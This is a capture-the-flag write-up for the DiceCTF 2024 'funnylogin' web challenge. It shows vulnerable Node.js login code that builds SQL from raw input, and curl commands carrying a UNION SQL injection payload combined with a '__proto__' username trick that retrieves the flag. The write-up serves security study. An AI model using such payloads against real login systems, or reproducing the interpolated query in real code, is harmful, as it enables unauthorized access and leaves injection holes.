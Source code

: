 
<!DOCTYPE html>
<html>

<body>
    <h1>dicectf 2024- web/funnylogin Challenge Writeup(first save it)</h1>

    <h2>Challenge Description</h2>
    <p> NOTE: no bruteforcing is required for this challenge! please do not bruteforce the challenge.

funnylogin:https://funnylogin.mc.ax/
 https://static.dicega.ng/uploads/6beb05ec61c3436cf1e0d566f56e786e42bd8e2fe788404169cae34c368929e4/funnylogin.tar.gz
</p>

    <h2>Solution Approach</h2>
    <p>Here are the steps we took to solve the challenge:</p>
 

# Solution
URL and source are passed.
When you access it, it looks like just a login form.
![site.png](site/site.png)
Looking at the source, the main parts of app.js are as follows.
<pre>
const users = [...Array(100_000)].map(() => ({ user: `user-${crypto.randomUUID()}`, pass: crypto.randomBytes(8).toString("hex" ) }));
db.exec(`INSERT INTO users (id, username, password) VALUES ${users.map((u,i) => `(${i}, '${u.user}', '${u. pass}')`).join(", ")}`);

const isAdmin = {};
const newAdmin = users[Math.floor(Math.random() * users.length)];
isAdmin[newAdmin.user] = true;

app.use(express.urlencoded({ extended: false }));
app.use(express.static("public"));

app.post("/api/login", (req, res) => {
     const { user, pass } = req.body;

     const query = `SELECT id FROM users WHERE username = '${user}' AND password = '${pass}';`;
     try {
         const id = db.prepare(query).get()?.id;
         if (!id) {
             return res.redirect("/?message=Incorrect username or password");
         }

         if (users[id] && isAdmin[user]) {
             return res.redirect("/?flag=" + encodeURIComponent(FLAG));
         }
         return res.redirect("/?message=This system is currently only available to admins...");
     }
     catch {
         return res.redirect("/?message=Nice try...");
     }
});
</pre>
There is SQLi which is trivial.
However, it seems that you can only become admin if <pre>users[id] && isAdmin[user]<pre> is true.
First, consider <pre>isAdmin[user]</pre>.
Only one of the users created in large quantities was randomly added as the `isAdmin` key, and we do not know who is the admin.
Here, you will notice that if you specify <pre>__proto__</pre> or <pre>toString</pre> to <pre>user</pre>, it will not become <pre>undefined</pre>.
For the remaining <pre>users[id]</pre>, just return an appropriate <pre>id</pre> using SQLi UNION.
Do as follows.
<pre>$ curl -X POST https://funnylogin.mc.ax/api/login -d "user=user&pass=pass"</pre>
Found. Redirecting to /?message=Incorrect%20username%20or%20password
<pre>$ curl -X POST https://funnylogin.mc.ax/api/login -d "user=__proto__&pass=' UNION SELECT id FROM users WHERE id = 1; -- satoki"</pre>
Found. Redirecting to /?flag=dice%7Bi_l0ve_java5cript!%7D
 
flag found


    </ol>
<br>
    <h2>Flag</h2>
    <p class="flag"> dice{i_l0ve_java5cript!}
</p>

    <h2>Conclusion</h2>
    <p>this is a easy sql injection and web exploitaion challenge with work on javascript files</p>
</body>
</html>
